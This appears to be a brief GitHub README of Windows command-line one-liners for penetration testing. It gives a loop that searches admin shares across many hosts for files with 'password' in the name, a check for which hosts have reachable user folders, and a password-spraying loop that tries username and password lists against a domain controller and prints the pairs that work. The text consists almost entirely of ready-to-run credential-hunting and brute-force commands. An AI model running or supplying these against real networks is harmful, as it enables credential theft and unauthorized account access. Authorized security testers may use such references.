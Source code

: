 # oneliners
One line DOS commands useful during pentests

for /f %a in (hosts.txt) do dir /b /s \\%a\C$\Users\*password*

for /f %a in (hosts.txt) do @if exist \\%a\C$\Users\ echo users found on %a

password spray
@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\DOMAINCONTROLLER\IPC$ /user:DOMAIN\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\DOMAINCONTROLLER\IPC$ > NUL 

